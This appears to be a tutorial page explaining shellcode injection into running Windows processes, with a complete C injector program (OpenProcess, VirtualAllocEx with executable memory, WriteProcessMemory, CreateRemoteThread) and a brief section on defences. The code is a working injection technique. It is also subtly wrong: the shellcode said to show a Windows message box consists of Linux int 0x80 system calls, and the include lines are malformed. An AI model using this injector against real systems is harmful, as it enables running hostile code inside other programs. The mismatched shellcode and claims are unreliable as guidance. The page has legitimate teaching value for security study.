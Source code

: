 # Inject the shellcode into the running process byte by byte.


# 👉 Overview

---

### 👀 What ?

Injecting shellcode into a running process is a technique used by cybersecurity professionals, particularly penetration testers and ethical hackers, to test the integrity of a system. Shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. Injecting it into a running process can manipulate the process to perform actions that it wasn't initially designed to do.


### 🧐 Why ?

The importance of understanding how to inject shellcode into a running process lies in its potential for exploitation. Unethical hackers can use this technique to gain unauthorized access to a system, manipulate data, or even gain complete control over a network. Therefore, cybersecurity professionals need to understand this technique to better protect their systems and networks. It's also a fundamental skill for penetration testers and red team members to emulate real-world hacking scenarios and identify vulnerabilities.


### ⛏️ How ?

Injecting shellcode into a running process involves several steps. First, you need to identify a vulnerable process. This can be done using various tools and techniques such as fuzzing or exploit development. Once a vulnerable process is identified, you write the shellcode that will be injected. This shellcode should be designed to perform the desired action, such as creating a backdoor or escalating privileges. Next, you inject the shellcode into the running process. This can be done using various methods, including DLL injection, process hollowing, or even direct memory writing. Finally, the injected shellcode is executed, causing the running process to perform the intended action.


### ⏳ When ?

The practice of injecting shellcode into running processes has been around since the early days of software vulnerability exploitation. It's a common technique in the realm of cybersecurity, particularly in penetration testing and ethical hacking.


# ⚙️ Technical Explanations

---

### Overview

Shellcode injection is an advanced technique used in cybersecurity to execute arbitrary code within the memory space of a running process. This method exploits the target process’s memory management and often involves intricate knowledge of assembly language and operating system internals. Shellcode is typically written in machine code, tailored to perform specific actions when executed. The injection process generally involves the following steps:

1. **Allocating Space**: Allocate space in the target process’s memory for the shellcode.
2. **Writing the Shellcode**: Write the shellcode into the allocated space.
3. **Redirecting Execution Flow**: Redirect the process’s execution flow to the injected shellcode.

### Steps of Shellcode Injection

### 1. Allocating Space

Allocating memory within the target process is the first step. In Windows, the `VirtualAllocEx` function can be used to allocate memory that is both readable and executable. This ensures that the shellcode can be executed once it is written into this space.

```c
HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
LPVOID allocatedMemory = VirtualAllocEx(processHandle, NULL, sizeOfShellcode, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

- `OpenProcess`: Opens the target process with the necessary access rights.
- `VirtualAllocEx`: Allocates memory in the target process. The memory is both committed and reserved, and its protection is set to allow execution (`PAGE_EXECUTE_READWRITE`).

### 2. Writing the Shellcode

After allocating the necessary memory, the shellcode is written into this space using `WriteProcessMemory`.

```c
unsigned char shellcode[] =
"\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\xeb\\x32\\x5b\\xb0\\x05\\x31\\xc9\\xcd"
"\\x80\\x89\\xc6\\xeb\\x06\\xb0\\x01\\x31\\xdb\\xcd\\x80\\x89\\xf3\\xb0\\x03\\x83"
"\\xec\\x01\\x8d\\x0c\\x24\\xb2\\x01\\xcd\\x80\\x31\\xdb\\x39\\xc3\\x74\\xe6\\xb0"
"\\x04\\xb3\\x01\\xb2\\x01\\xcd\\x80\\x83\\xc4\\x01\\xeb\\xdf\\xe8\\xc9\\xff\\xff"
"\\xff";

DWORD bytesWritten;
WriteProcessMemory(processHandle, allocatedMemory, shellcode, sizeof(shellcode), &bytesWritten);

```

- `WriteProcessMemory`: Writes the shellcode into the allocated memory space in the target process.

### 3. Redirecting Execution Flow

To execute the shellcode, the process’s execution flow must be redirected to the address of the injected shellcode. This can be done by creating a remote thread that starts execution at the shellcode’s address.

```c
CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);

```

- `CreateRemoteThread`: Creates a thread in the target process, starting execution at the allocated memory containing the shellcode.

### Example of Shellcode Injection

Here's a complete example showing how to perform shellcode injection to display a message box on a Windows system:

### C Program to Inject Shellcode

```c
#include <windows.h
#include <stdio.h

int main(int argc, char* argv[]) {
    // Assuming the target process ID is passed as an argument
    DWORD processId = atoi(argv[1]);
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (processHandle == NULL) {
        printf("Failed to open process\\n");
        return 1;
    }

    // Shellcode for displaying a message box
    unsigned char shellcode[] =
        "\\x31\\xc0\\x50\\x68\\x6c\\x6f\\x20\\x21\\x68\\x20\\x57\\x6f\\x72\\x68\\x48"
        "\\x65\\x6c\\x6c\\x89\\xe1\\x31\\xd2\\x6a\\x00\\x52\\x51\\x31\\xdb\\xb3\\x40"
        "\\xcd\\x80";

    // Allocate memory in the target process
    LPVOID allocatedMemory = VirtualAllocEx(processHandle, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (allocatedMemory == NULL) {
        printf("Failed to allocate memory\\n");
        CloseHandle(processHandle);
        return 1;
    }

    // Write the shellcode into the allocated memory
    SIZE_T bytesWritten;
    if (!WriteProcessMemory(processHandle, allocatedMemory, shellcode, sizeof(shellcode), &bytesWritten)) {
        printf("Failed to write memory\\n");
        VirtualFreeEx(processHandle, allocatedMemory, 0, MEM_RELEASE);
        CloseHandle(processHandle);
        return 1;
    }

    // Create a remote thread to execute the shellcode
    HANDLE threadHandle = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);
    if (threadHandle == NULL) {
        printf("Failed to create remote thread\\n");
        VirtualFreeEx(processHandle, allocatedMemory, 0, MEM_RELEASE);
        CloseHandle(processHandle);
        return 1;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(threadHandle, INFINITE);

    // Clean up
    VirtualFreeEx(processHandle, allocatedMemory, 0, MEM_RELEASE);
    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}

```

### Steps to Execute

1. **Compile the Program**: Compile the C program using a compiler like `gcc` or `cl` (Visual Studio Compiler).
2. **Run the Program**: Execute the compiled binary with the target process ID as an argument.

```bash
injector.exe <target_process_id

```

### Defense Mechanisms

Modern operating systems employ several defense mechanisms to protect against shellcode injection:

1. **Data Execution Prevention (DEP)**: Prevents execution of code from non-executable memory regions.
2. **Address Space Layout Randomization (ASLR)**: Randomizes the memory addresses of key data areas to make it harder for attackers to predict target locations.
3. **Code Signing**: Ensures that only trusted code is executed by validating digital signatures.

### Conclusion

Shellcode injection is a powerful and sophisticated technique in cybersecurity, enabling attackers to execute arbitrary code within a target process. This process involves allocating memory, writing shellcode, and redirecting execution flow. Understanding these concepts is essential for cybersecurity professionals to develop effective defenses and for ethical hackers to identify and mitigate vulnerabilities. Always ensure that such techniques are used responsibly and legally within controlled environments.
